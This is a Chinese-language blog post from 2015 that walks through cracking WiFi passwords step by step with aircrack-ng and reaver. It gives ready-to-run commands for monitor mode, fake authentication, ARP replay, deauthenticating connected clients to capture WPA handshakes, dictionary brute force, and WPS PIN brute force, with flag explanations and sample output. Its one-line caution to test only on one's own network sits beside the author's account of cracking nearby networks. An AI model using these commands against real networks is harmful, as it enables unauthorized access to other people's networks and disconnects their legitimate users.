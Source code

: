 ```yaml
---
layout: post
title:  "WIFI密码破解笔记"
date:   2015-10-31 09:15:52
comments: true
categories: Tech MITM
---
```

相对于前一段时间脆弱的WEP加密路由器而言，当今的路由器加密方式也大都改变为WPA/WPA2，使得无线路由器的破解难度增加。
虽然如此，但还是有很多漏洞层出不穷，如针对路由器WPS的漏洞。退一步来说，即使加密算法无懈可击，我们还可以针对安全防护中最脆弱的部分——人——来进行破解。
人的想象力实在是匮乏的很，往往设置密码来来回回就是那么几类，用一个常见的弱口令字典，往往就能在10分钟左右把其密码暴力破解出来。
这里提供己种常见的WIFI破解方式，其中WEP破解因为已经过时，所以只是在提到的时候一笔带过，主要记录的是抓握手包然后暴力破解的
通用方法，末尾也会提及到WPS的破解方式。注意这仅仅作为个人实验用，最好在自己的家庭网络中测试，以免给别人带来不便。  

### 准备工具:  
> - Linux操作系统，Windows下可以用虚拟机代替。
> - [aircrack-ng][aircrack]工具集
> - 安装reaver（可选）

 
### Step1. 查看网卡信息，记录无线网卡MAC地址

    #ifconfig -a (以管理员权限运行，下同)

这里假设本机MAC地址为：00:11:22:33:44:55

### Step2. 开启无线网卡，设置为监听模式  
    #airmon-ng start wlan0  [信道号]

其中信道号可以先不填,开启后可以ifconfig看到多了个接口mon0，即为监听接口。值得一提的是，无线网卡的监听模式其实
就相当于有线情况下的混杂模式（Promiscuous Mode）。
  
### Step3. 搜索周围的无线网络  
    #airodump-ng mon0

这条命令会在mon0接口上不断切换信道来搜索附近的wifi热点，在结果中
找到待破解的AP，记录BSSID（这里假设为AA:BB:CC:DD:EE:FF），信道号（这里假定为 6），ESSID（设为myWiFi)

### Step4. 测试无线设备的注入

    aireplay-ng -9 -e myWiFi -a AA:BB:CC:DD:EE:FF mon0

其中

    -9 表示注入测试
    -e myWiFi 是无线网络名字
    -a AA:BB:CC:DD:EE:FF 是接入点的MAC地址
    mon0 是无线接口名字
    返回结果的最后一行表示注入成功率，一般比较高，如果很低表示离AP太远了  

### Step5. 开始抓包

    airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w output mon0

### Step6. 虚拟认证（可选，只在AP为WEP加密的时候才有效）

这里值得一提的是，从前为了破解WEP加密的WIFI，我们需要收集足够多的IVS。如果运气好的话，通常40位WEP（64位密钥）用30万IVs就可以破解，
104位WEP（128位密钥）有150万IVs可以破解，运气不好的话需要更多。为此我们需要用ARP注入的方式加开扑捉IVs的速度。但对于WPA/WPA2我们则没有类
似破解办法，只能通过扑捉握手包来进行暴力破解。 为了AP能够接收packet，源MAC地址必须已经连接。如果你正在注入的源MAC地址没有连接，
AP会忽略所有包并发送一个“DeAuthentication“包。这种情况下，不会有新的IVs被创建。
缺少和AP的连接是注入失败的一个常见原因，记住：你用来注入的MAC地址必须连接AP（通过虚拟认证或者使用已经连接的客户端MAC）

虚拟认证：  

    aireplay-ng -1 0 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    -1 表示虚拟认证（fake authentication）
    0 表示重新认证的时间（秒）
    -e myWiFi 是无线网络名称
    -a AA:BB:CC:DD:EE:FF 是接入点MAC地址
    -h 00:11:22:33:44:55 是我们网卡的MAC地址
    mon0是无线接口名称

成功有类似下面的输出:

    18:18:20  Sending Authentication Request
    18:18:20  Authentication successful
    18:18:20  Sending Association Request
    18:18:20  Association successful :-)

另外还可以:

    aireplay-ng -1 6000 -o 1 -q 10 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    6000 - 每6000秒重新认证一次. 长周期同时也会导致发送keep alive packets
    -o 1 - 一次仅发送一组包，默认发送多组，这样会对某些AP导致混乱
    -q 10 - 每10秒发送一次keep alive packets

成功有类似下面输出:

    18:22:32  Sending Authentication Request
    18:22:32  Authentication successful
    18:22:32  Sending Association Request
    18:22:32  Association successful :-)
    18:22:42  Sending keep-alive packet
    18:22:52  Sending keep-alive packet

### Step7. ARP请求重播攻击（可选，只在虚拟认证成功时才有效）

airodump抓包速度比较慢，为了加速包的产生，我们可以使用传统的ARP请求重播攻击（ARP request replay attack）来快速生成IVs（Initialization Vectors）：

    aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

### Step8. 攻击目标客户端使其掉线，获取握手包

和WEP破解最显著的区别是，由于WPA需要暴力破解，因此抓的包里必须至少包含一个握手包，
我们可以发送一种称之为“Deauth”的数据包来将已连接至无线路由器的合法无线客户端断开，此时客户端就会重新连接无线路由器，
我们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。命令为：

    aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c clientMAC mon0

其中:

    -0 表示采用deauth攻击模式，后卖弄加上攻击次数，这里设置为1，可以根据情况设置为1-10不等（不要设太多不然对方会频繁掉线）
    -a 为AP的MAC ， -c为已连接的客户端MAC

### Step9. 暴力破解抓下来的包

一旦捕捉到WPA handshake，我们就可以开始进行破解了：

    aircrack-ng -b AA:BB:CC:DD:EE:FF output*.cap -w yourdic

其中:

    -b AA:BB:CC:DD:EE:FF 选择了一个我们感兴趣的接入点，这是可选的，因为我们捕捉数据的时候就已经指定了此AP而忽略其他.
    output*.cap 选择我们在Step5里用airodump抓下来的包.
    -w 指定一个破解的字典。破解的效率和字典的选择有很大关系，一般选用弱口令字典，因为强口令破解时间太长，得不偿失。

许多人家里的WIFI都是常见的格式，车牌、手机、名字、拼音等等，从我破解周围WIFI的结果来看，使用通用的WPA/PSK字典来破解，时间往往不会
超过10分钟。这里说点题外话，像用预先计算好的像彩虹表一样的配对表（Pairwise Master Keys）来进行破解也是不行的，因为口令都用ESSID加了盐。所以还是得乖乖抓握手包。

 
### 其他方法（WPS破解）：

除了这样通用的暴力破解外，我们还可以用reaver来破解带WPS的路由器的PIN码，但是对信号的要求很高，如果AP的信号很强，
或者自己的无线网卡很给力，也可以采用这种方式。优点是字典无关，无论路由器密码多强都能破解出来，在我的笔记本上尝试破解了自己家的WIFI密码，
花费的时间大概为5个小时。

以上述AP为例，可以用命令行运行

    reaver  -i  mon0  -b AA:BB:CC:DD:EE:FF  -a  -S  -vv  -d2  -t 5 -c 1

其中：

    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d 即delay每穷举一次的闲置时间 预设为1秒
    -t 即timeout每次穷举等待反馈的最长时间
    -c指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9参数防止路由僵死  

示例：  

    reaver -i mon0 -b MAC -a -S –d9 –t9 -vv -c 1 

    应因状况调整参数
    目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
    目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
    目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

[aircrack]: http://www.aircrack-ng.org/doku.php?id=simple_wep_crack

